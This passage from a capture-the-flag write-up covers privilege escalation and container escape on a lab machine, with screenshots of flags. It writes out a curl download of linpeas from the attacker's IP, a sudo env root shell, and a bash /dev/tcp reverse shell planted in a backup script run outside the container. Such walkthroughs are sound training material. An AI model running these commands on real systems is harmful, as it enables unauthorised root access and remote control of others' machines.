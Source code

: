 > curl <YOUR IP>/linpeas.sh -o /tmp/linpeas.sh

>chmod +x linpeas.sh

> ./linpeas.sh > output.txt &

reading the output

> cat output.txt

![image](https://user-images.githubusercontent.com/53917092/97322387-81da1180-184e-11eb-8fcb-d70820e93d0a.png)

![image](https://user-images.githubusercontent.com/53917092/97323609-bdc1a680-184f-11eb-9a45-5ccf5f594448.png)

linpeas pointed this binary (/usr/bin/env) as 99% chance of being vulnerable for privilege escalation

checking in GTFObins about this binary

![image](https://user-images.githubusercontent.com/53917092/97324130-450f1a00-1850-11eb-9588-d893947b0965.png)

> sudo env /bin/sh

![image](https://user-images.githubusercontent.com/53917092/97324324-7be53000-1850-11eb-9c45-51c970969837.png)

### third flag

![image](https://user-images.githubusercontent.com/53917092/97324598-c5ce1600-1850-11eb-9679-bd259f568ad5.png)

## Privelege escalation escalation?

as root. in the root (/) of system we see:

![image](https://user-images.githubusercontent.com/53917092/97325930-3e81a200-1852-11eb-983a-abd973205979.png)

which shows that docker is installed on this machine and we have to do a "Container escape"

so searching for scripts 

> find / -type f -name *.sh

we find : /opt/backups/backup.sh

![image](https://user-images.githubusercontent.com/53917092/97327348-a4baf480-1853-11eb-80a2-7a8a6b4111d4.png)

this script compresses files from outside the container, so I will replace it with a reverse shell and it will be called from outside the container too

>echo '#!/bin/bash' > /opt/backups/backup.sh

> echo 'bash -i >& /dev/tcp/<YOUR IP>/1234 0>&1' >> /opt/backups/backup.sh

and just wait

a few minutes later:

![image](https://user-images.githubusercontent.com/53917092/97328868-38d98b80-1855-11eb-9a57-59aaa9145006.png)

## Fourth flag

![image](https://user-images.githubusercontent.com/53917092/97329058-69212a00-1855-11eb-942b-b6723d136cad.png)